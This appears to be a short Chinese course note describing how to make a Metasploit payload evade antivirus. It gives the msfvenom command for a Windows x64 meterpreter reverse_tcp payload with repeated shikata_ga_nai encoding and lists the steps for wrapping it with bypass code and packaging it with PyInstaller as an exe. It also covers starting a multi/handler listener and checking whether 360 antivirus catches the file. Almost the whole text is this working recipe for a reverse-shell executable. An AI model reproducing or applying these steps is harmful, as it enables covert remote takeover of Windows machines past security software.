

# 免杀msfpayload
生产py文件的payload  生成python文件
  msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=1125 LHOST=192.168.149.142 -e x86/shikata_ga_nai -i 17 -f py -o  /root/msf.py
将生成的msf.py 拖到windows下进行编辑
在代码的头部和尾部分别加入代码   代码来源为: D:\cracer\day8\py免杀msf\msf-py-bypass.txt
接下来将pyinstaller-2.0 路径D:\cracer\day8\py免杀msf\pyinstaller-2.0,解压放到python27目录下
安装pywin32-219.win-amd64-py2.7.exe文件
在python27目录下面打开powershell 调用cdm之后
E:\Python27>python27 pyinstaller-2.0\pyinstaller.py --console --onefile msf.py
Kali 打开监听
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
将生成的python exe文件放到windows7中运行，查看360是否查杀
运行后查看是否反弹kali建立会话   --可以绕过静态查杀、动态查杀估计不行